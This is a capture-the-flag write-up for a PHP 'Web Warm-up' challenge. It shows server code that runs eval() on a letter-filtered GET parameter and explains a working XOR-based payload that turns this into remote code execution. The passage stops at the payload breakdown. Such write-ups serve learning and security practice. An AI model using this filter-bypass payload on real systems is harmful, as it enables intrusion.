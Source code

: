 Table of contents
- [Web](#web)
  - [Web Warm-up](#web-warm-up)
  - [Treasury #1](#treasury-1)
  - [Treasury #2](#treasury-2)

# <a name="web"></a> Web
## <a name="web-warm-up"></a> Web Warm-up
Points: 35
#### Description
>Warm up! Can you break all the tasks? I'll pray for you!
>
>read flag.php
>
>Link: [Link](http://69.90.132.196:5003/?view-source)
### Solution
When we access the link we get the next code:
```php
 <?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
} 
```
We need to provide a value for `warmup` that must not containes letters, have a length less or equal than 60 and contain a payload that will get us the flag.

Searching for `php eval exploit without letters` I found this [article](https://www.programmersought.com/article/7881105401/). Here I saw that you can get letters by XOR-ing strings that contain only special characters. For example, php will interpret `"{" ^ "<"` as `G`. Going further with this we can make the source code evaluate an expression with the restricted parameter, but using another parameter from the query string that is not restricted. We want to achive something like `eval("_GET['another_parameter']")`.

As you can see from the article, we can write `GET` as `"{{{"^"<>/"`. Using this, we can achive RCE with the next exploit: ```$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);```. Breaking it down, we have:
- `$_="_GET"` (a variable called `_` with the value `_GET`)
- `${$_}[_]` (invoking `$_GET[_]` that will take the value from the query parameter called `_`. We will use this to pass a function)
- `(${$_}[__]);` (this will translate into `($_GET[__])`. We will use this as argument for the function we choose to pass)

